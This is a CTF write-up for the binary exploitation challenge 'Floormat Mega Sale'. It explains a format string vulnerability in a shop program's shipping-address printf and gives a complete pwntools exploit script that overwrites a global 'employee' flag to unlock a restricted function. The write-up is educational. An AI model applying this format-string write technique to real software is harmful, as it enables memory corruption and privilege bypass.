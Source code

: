 ```yaml
---
description: Binary Exploitation
---
```


# Floormat Mega Sale

> The Floor Mat Store is running a mega sale, check it out!
>
> Author: CryptoCat

{% file src="../../.gitbook/assets/floormat_sale.zip" %}

```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

A simple shop challenge, the goal is to buy the exclusive employee mat:

```c
  setvbuf(stdout,(char *)0x0,2,0);
  local_48[0] = "1. Cozy Carpet Mat - $10";
  local_48[1] = "2. Wooden Plank Mat - $15";
  local_48[2] = "3. Fuzzy Shag Mat - $20";
  local_48[3] = "4. Rubberized Mat - $12";
  local_28 = "5. Luxury Velvet Mat - $25";
  local_20 = "6. Exclusive Employee-only Mat - $9999";
  local_10 = getegid();
```

The problem is, attempting to buy the Exclusive Employee-only Mat calls a special check for the employee variable:

```c
  if ((0 < local_14c) && (local_14c < 7)) {
    do {
      iVar1 = getchar();
    } while (iVar1 != 10);
    puts("\nPlease enter your shipping address:");
    fgets(local_148,0x100,stdin);
    puts("\nYour floor mat will be shipped to:\n");
    printf(local_148);
    if (local_14c == 6) {
      employee_access();
    }
    return 0;
  }
```

```c
void employee_access(void)

{
  char local_58 [72];
  FILE *local_10;
  
  if (employee == 0) {
    puts("\nAccess Denied: You are not an employee!");
  }
  else {
```

Since the employee variable is global, we can make a format string payload using pwntools and input it as the "Shipping Address". Full script:

```python
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *

exe = context.binary = ELF(args.EXE or 'floormat_sale')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or 'riggedslot2.ctf.intigriti.io'
port = int(args.PORT or 1339)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
# break *employee_access
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

EMPLOYEE_VAR = 0x000000000040408c
log.success(f'Employee Var: {p64(EMPLOYEE_VAR)}')

payload = fmtstr_payload(10, {EMPLOYEE_VAR : 1})

log.info(io.clean())
io.sendline(b'6')
log.info(io.clean())
io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>
